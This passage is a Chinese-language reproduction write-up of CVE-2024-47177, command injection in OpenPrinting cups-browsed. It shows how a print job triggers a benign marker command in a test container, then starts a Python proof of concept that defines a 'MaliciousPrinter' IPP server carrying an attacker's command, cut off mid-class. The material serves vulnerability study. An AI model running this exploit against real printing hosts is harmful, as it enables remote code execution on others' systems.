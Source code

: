 此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果 TCP 631 端口开发，我们可以使用浏览器访问，并找到刚才增加的恶意 IPP 打印机，并创建一个“打印测试页面”的打印任务。

![](images/OpenPrinting%20Cups-Browsed%20PDD%20FoomaticRIPCommandLine%20参数导致远程命令执行漏洞%20CVE-2024-47177/image-20241008114017948.png)

任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE` 命令已经成功执行：

![](images/OpenPrinting%20Cups-Browsed%20PDD%20FoomaticRIPCommandLine%20参数导致远程命令执行漏洞%20CVE-2024-47177/image-20241008114134429.png)

## 漏洞 POC

poc.py

```python
#!/usr/bin/env python3
import socket
import threading
import time
import sys


from ippserver.server import IPPServer
import ippserver.behaviour as behaviour
from ippserver.server import IPPRequestHandler
from ippserver.constants import (
    OperationEnum, StatusCodeEnum, SectionEnum, TagEnum
)
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest


class MaliciousPrinter(behaviour.StatelessPrinter):
    def __init__(self, command):
        self.command = command
        super(MaliciousPrinter, self).__init__()

    def printer_list_attributes(self):
```
